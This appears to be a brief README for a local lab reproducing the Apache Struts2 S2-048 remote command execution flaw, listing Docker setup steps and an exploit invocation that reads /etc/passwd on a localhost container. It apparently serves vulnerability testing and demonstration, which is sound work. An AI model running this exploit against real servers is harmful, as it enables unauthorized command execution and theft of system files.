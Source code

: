 # struts_poc
git clone https://github.com/hook-s3c/apache-struts2-PoC
cd apache-struts2-PoC/
docker build -t struts .
docker run -it --rm -d -p 8080:8080 struts:latest
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest
curl 127.0.0.1:8080/showcase.action -v
#python3 -m venv .
python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'
